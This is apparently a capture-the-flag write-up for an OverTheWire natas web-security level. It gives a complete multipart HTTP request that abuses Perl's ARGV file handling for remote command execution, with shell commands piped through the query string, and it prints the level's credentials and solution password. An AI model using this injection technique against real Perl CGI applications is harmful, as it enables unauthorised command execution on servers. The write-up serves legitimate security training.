# natas33

Very similar to the previous challenge. A little tweak to make it into RCE:

POST /index.pl?[code] HTTP/1.1
Host: natas32.natas.labs.overthewire.org
Content-Length: 384
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMjpubzF2b2hzaGVDYWl2M2llSDRlbTFhaGNoaXNhaW5nZQ==
Origin: http://natas32.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=—-WebKitFormBoundaryRBTu3E1JQ8QW7zwK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,und;q=0.8
Connection: close

——WebKitFormBoundaryRBTu3E1JQ8QW7zwK
Content-Disposition: form-data; name=”file”

ARGV
——WebKitFormBoundaryRBTu3E1JQ8QW7zwK
Content-Disposition: form-data; name=”file”; filename=”abc”
Content-Type: text/plain

abcde
——WebKitFormBoundaryRBTu3E1JQ8QW7zwK
Content-Disposition: form-data; name=”submit”

Upload
——WebKitFormBoundaryRBTu3E1JQ8QW7zwK–


The [code] above should be something like code%20to%20execute%20|

For this challenge, first execute ls%20.%20| to find a binary getpassword in the same folder. Then execute ./getpassword%20| to get the password.

Additional thoughts: the file getpassword has perms -rwsrwx--- for user:group root:natas32, which means that the current user should be able to modify the executable and turn it into a privsec binary. However, I wasn’t able to execute any commands to mess it up. Not sure where the limitation is.

Password: shoogeiGa2yee3de6Aex8uaXeech5eey